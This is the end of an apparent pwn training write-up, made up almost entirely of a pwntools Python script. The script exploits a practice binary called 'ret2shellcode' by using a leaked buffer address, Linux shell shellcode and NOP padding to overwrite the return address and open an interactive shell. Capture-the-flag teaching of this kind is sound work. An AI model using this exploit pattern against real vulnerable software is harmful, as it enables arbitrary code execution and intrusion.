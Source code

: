 ```python
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process() # start the process.

context.binary = elf = ELF('./ret2shellcode') 
start()

buf_addr = int(p.recvlines(2)[-1].split()[-1], 16) # recvlines and then get the leak

payload = asm(shellcraft.linux.sh()) # generates a shellcode compatible with linux systems
payload += b'\x90'*(104 - len(payload)) # spans the gap between buf variable and return 
payload += p64(buf_addr) # address of the buf variable

p.sendline(payload) # send the payload

p.interactive() # doesnt close the shell and keeps it open for us.
p.close()
```

Hope you liked the pwn training 1. More training writeups coming soon ! :D 